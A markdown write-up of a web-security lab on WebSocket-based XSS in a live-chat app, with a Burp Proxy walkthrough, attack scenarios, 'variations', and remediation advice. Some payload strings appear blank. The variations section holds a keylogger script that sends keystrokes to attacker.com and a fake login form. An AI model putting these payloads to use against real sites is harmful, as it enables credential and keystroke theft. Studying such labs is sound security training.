

# 🧠 Lab-1 WEBSOCKET XSS (LIVE CHAT) — COMPLETE NOTES

## 📌 1️⃣ OVERVIEW

This lab demonstrates a WebSocket-based XSS vulnerability where:

Attacker injects malicious payload into a WebSocket message → server forwards it → executed in another user's browser

It combines:

- Real-time communication (WebSockets)
- Client-side vulnerability (XSS)
- Lack of server-side sanitization

## 📌 2️⃣ WHAT IS THE TOPIC?

### 🧩 Core concepts:

- WebSockets (persistent connection)
- Message interception & manipulation
- Stored/Reflected XSS via WebSockets
- Client-side encoding bypass

### 🧩 Goal:

Trigger `alert()` in support agent’s browser using WebSocket message

## 📌 3️⃣ VULNERABILITY IDEA

The app:

- Uses WebSockets for chat
- Sends messages like:

```json
{"message":"Hello"}
```

Displays them in another user's browser

Problem:

Server does NOT sanitize message content before rendering

## 📌 4️⃣ KEY OBSERVATION

When you typed `<` in browser:

```json
{"message":"&lt;"}
```

👉 Means:

Client is encoding input before sending

## 📌 5️⃣ CORE BYPASS

Use Burp to modify message AFTER encoding → send raw payload

## 📌 6️⃣ LAB WALKTHROUGH (STEP-BY-STEP)

### 🟢 Step 1 — Open Live Chat

Send normal message:

```text
hello
```

### 🟢 Step 2 — Identify WebSocket traffic

Go to:

```text
Proxy → WebSockets history
```

Find:

```json
{"message":"hello"}
```

### 🟢 Step 3 — Turn OFF intercept (important)

Let connection establish normally

### 🟢 Step 4 — Turn ON intercept

After connection is stable:

```text
Proxy → Intercept → ON
```

### 🟢 Step 5 — Send another message

Burp intercepts:

```json
{"message":"test"}
```

### 🟢 Step 6 — Modify payload

Replace with:

```json
{"message":""}
```

But in proxy not in repeater because WHY REPEATER FAILED (IMPORTANT INSIGHT)

### ❌ Repeater:

Creates new WebSocket connection → breaks session

### ✅ Proxy:

Uses live connection → real exploitation works

Click Forward

## 📸 Screenshot — WebSocket XSS Payload Modified in Proxy



### 🟢 Step 7 — Observe result

`alert()` popup appears → lab solved

## 📌 7️⃣ FINAL PAYLOAD

```json
{"message":""}
```

## 📌 8️⃣ PAYLOAD BREAKDOWN

### 🧩 ``

Invalid image → triggers error

### 🧩 `onerror=alert(1)`

JavaScript executes when image fails

### 🧩 Result

Code executes in victim (support agent) browser

## 📌 0️⃣ ATTACK FLOW (REAL MODEL)

```text
Attacker sends malicious message
    ↓
Server receives and forwards
    ↓
Support agent browser renders message
    ↓
JavaScript executes (XSS)
```

## 📌 1️⃣ REAL-WORLD SCENARIOS (VERY IMPORTANT)

### 🧨 1. Customer support systems

- Attacker sends malicious message
- Support agent dashboard executes script
- Session hijack

### 🧨 2. Admin chat panels

- XSS in admin browser
- Full system compromise

### 🧨 3. Live collaboration apps

Inject scripts into shared workspace

### 🧨 4. Trading dashboards / fintech

- Inject fake UI
- steal sensitive data

## 📌 2️⃣ HIGH-VALUE TARGETS

- Admin panels
- Support dashboards
- Internal tools
- Monitoring systems

## 📌 3️⃣ 100% REAL-WORLD VARIATIONS

### 🔥 Variation 1 — Cookie stealing

```json
{"message":""}
```

### 🔥 Variation 2 — Keylogger

```json
{"message":"<script>document.onkeypress=e=>fetch('https://attacker.com?k='+e.key)</script>"}
```

### 🔥 Variation 3 — Fake login injection

```json
{"message":"<form action='attacker.com'>Fake login</form>"}
```

### 🔥 Variation 4 — CSRF chaining

XSS triggers hidden requests automatically

### 🔥 Variation 5 — Multi-user propagation

Message spreads → infects multiple users

## 📌 4️⃣ MULTI-CHAIN ATTACK MODEL

```text
WebSocket message → XSS → session theft → privilege escalation → full takeover
```

## 📌 5️⃣ REMEDIATION

### 🛡️ 1. Server-side sanitization

Escape HTML before rendering

### 🛡️ 2. Output encoding

Convert `< >` into safe characters

### 🛡️ 3. Content Security Policy (CSP)

Block inline scripts

### 🛡️ 4. Validate WebSocket input

Treat all messages as untrusted

## 📌 6️⃣ KEY MINDSET

WebSockets are just live APIs — every message is an attack surface

## 🔥 FINAL SUMMARY

This lab shows how intercepting and modifying a WebSocket message allows an attacker to bypass client-side encoding and inject a malicious XSS payload that executes in another user's browser in real time.

If you want next, I can give you:

👉 “WebSocket attack cheat sheet (payloads + patterns to solve labs instantly)”
